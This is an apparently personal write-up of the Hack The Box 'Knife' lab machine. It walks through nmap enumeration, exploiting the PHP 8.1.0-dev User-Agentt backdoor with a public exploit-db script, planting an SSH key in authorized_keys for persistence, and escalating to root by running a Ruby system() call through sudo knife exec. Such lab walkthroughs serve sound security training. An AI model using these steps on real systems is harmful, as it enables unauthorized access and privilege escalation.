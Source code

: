 ```yaml
---
title: Knife
date: 2021-06-05 22:20:00 +0200
categories: [machine]
tags: [hackthebox]
toc: false
---
```


# Enumeration
## NMAP Scan
Apache 2.4.41 (Port 80) and OpenSSH (Port 22) are running on this machine.
``` bash
┌─[x7f@pWnbox]─[/ctf/hackthebox/machines/knife]
└──╼ $sudo nmap -sC -sV 10.10.10.242
[sudo] password for x7f: 
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-04 18:47 CEST
Nmap scan report for 10.10.10.242
Host is up (0.056s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Website
Upon visiting the website, not much is remarkable. No form, no hidden folders/files or anything else.
![](/assets/img/knife_box.png#center)
## Vulnerability
The running services do not seem to be vulnerable, so lets check the PHP version.
``` bash
┌─[x7f@pWnbox]─[/ctf/hackthebox/machines/knife]
└──╼ $nmap -sV --script=http-php-version 10.10.10.242 -sC
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-04 18:47 CEST
Nmap scan report for 10.10.10.242
Host is up (0.065s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-php-version: Version from header x-powered-by: PHP/8.1.0-dev
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Bingo - `PHP 8.1.0-dev` - that looks promising
# Exploitation
[PHP verion 8.1.0-dev](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/) was released with a backdoor in March 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
With a [POC script](https://www.exploit-db.com/exploits/49933) from exploit-db we get access to a shell.
``` bash
┌─[x7f@pWnbox]─[/ctf/hackthebox/machines/knife]
└──╼ $python 49933.py 
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/
$ whoami
james
$ echo "ssh-rsa AAAAB3Nza...6ZMeJjY1iiRM= x7f@pWnbox" >> ~/.ssh/authorized_keys
```
We add our ssh public key to the authorized_keys file. With that we can now ssh into the machine with the user James - without being asked for a password.
``` bash
┌─[x7f@pWnbox]─[/ctf/hackthebox/machines/knife]
└──╼ $ssh james@10.10.10.242
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-72-generic x86_64)
...
james@knife:~$ cat user.txt
```
The first flag is snatched, now it's on to the second one
# Root
First check what we can do with root rights.
``` bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Lets run it and check what we can do with it.
``` bash
james@knife:~$ sudo knife
ERROR: You need to pass a sub-command (e.g., knife SUB-COMMAND)

Usage: knife sub-command (options)
    -s, --server-url URL             Chef Infra Server URL.
        --chef-zero-host HOST        Host to start Chef Infra Zero on.
        --chef-zero-port PORT        Port (or port range) to start Chef Infra Zero on. Port ranges like 1000,1010 or 8889-9999 will try all given ports until one works.
    -k, --key KEY                    Chef Infra Server API client key.
        --[no-]color                 Use colored output, defaults to enabled.
    -c, --config CONFIG              The configuration file to use.
        --config-option OPTION=VALUE Override a single configuration option.
        --defaults                   Accept default values for all questions.
    -d, --disable-editing            Do not open EDITOR, just accept the data as is.
    -e, --editor EDITOR              Set the editor to use for interactive commands.
    -E, --environment ENVIRONMENT    Set the Chef Infra Client environment (except for in searches, where this will be flagrantly ignored).
        --[no-]fips                  Enable FIPS mode.
...
** EXEC COMMANDS **
knife exec [SCRIPT] (options)
...
```
Great, we can run scripts - now we just need to find out what kind of scripts are accepted.
``` bash
james@knife:~$ cat /usr/bin/knife
#!/opt/chef-workstation/embedded/bin/ruby --disable-gems
#--APP_BUNDLER_BINSTUB_FORMAT_VERSION=1--
require "rubygems"
```
It is written in Ruby. We can try to run a Ruby script.
``` bash
james@knife:~$ echo "system('cat /root/root.txt');" > exploit.rb
james@knife:~$ sudo knife exec exploit.rb
25f5f43858ccbf6b28c3466b4954b9a2
```
Got the second flag and we are done here. ٩(◕‿◕｡)۶